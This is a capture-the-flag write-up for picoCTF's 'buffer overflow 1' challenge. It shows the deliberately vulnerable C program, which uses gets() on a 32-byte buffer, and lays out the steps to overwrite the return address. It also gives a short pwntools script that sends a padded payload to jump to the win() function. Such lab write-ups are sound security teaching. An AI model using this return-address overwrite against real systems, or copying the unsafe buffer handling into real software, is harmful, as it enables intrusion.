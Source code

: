 # picoCTF - buffer overflow 1

### Binary protection

![](p/1.png)

This binary is poorly protected, so it shouldn't be a problem to take advantage of buffer overflow vulnerability.

### Source code


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

We have `win()` function, which is responsible for printing, so what can we do?

1. Get the address of `win()` function (using for example `radare2`)
2. Overflow the buffer and override instruction pointer.

Seems to be easy!

### Exploit

```python
from pwn import *

process = remote("saturn.picoctf.net","49267")
process.recv()

payload = b"A"*44 + p32(0x080491f6)
process.sendline(payload)
process.recv()
flag = process.recv()
print(flag)
```

![](p/2.png)

